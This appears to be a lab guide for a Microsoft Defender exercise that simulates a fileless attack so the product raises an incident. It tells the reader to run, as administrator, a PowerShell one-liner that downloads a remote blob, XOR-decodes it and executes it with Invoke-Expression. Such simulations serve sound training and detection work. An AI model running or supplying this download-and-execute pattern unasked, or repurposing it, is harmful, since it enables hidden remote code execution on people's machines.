

## Fileless Attack Incident

### Task 1 - Generating the incident

1. Switch to the client machine
2. Run Windows Powershell as administrator
3. Copy and paste the following text into the PowerShell window and press Enter to run
```console
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
4. Wait for the script to finish running. Notepad should open which you can close manually


Example Defender page

